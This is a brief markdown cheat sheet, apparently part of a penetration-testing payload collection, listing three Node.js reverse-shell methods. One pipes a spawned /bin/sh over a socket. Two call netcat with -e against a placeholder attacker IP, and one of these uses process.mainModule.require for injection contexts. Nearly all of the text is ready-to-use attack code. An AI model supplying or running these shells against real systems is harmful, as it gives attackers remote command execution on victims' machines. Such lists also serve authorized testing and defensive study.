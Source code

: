 # NodeJS

## Method 1

```javascript
(function() {
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(<PORT>, "<IP>", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```

## Method 2

```javascript
require('child_process').exec('nc -e /bin/sh <attacker_IP> <LPORT>')
```

## Method 3

```javascript
var x = global.process.mainModule.require
x('child_process').exec('nc <attacker_IP> <LPORT> -e /bin/bash')
```

---
## References

- [JSgen](https://gitlab.com/0x4ndr3/blog/blob/master/JSgen/JSgen.py)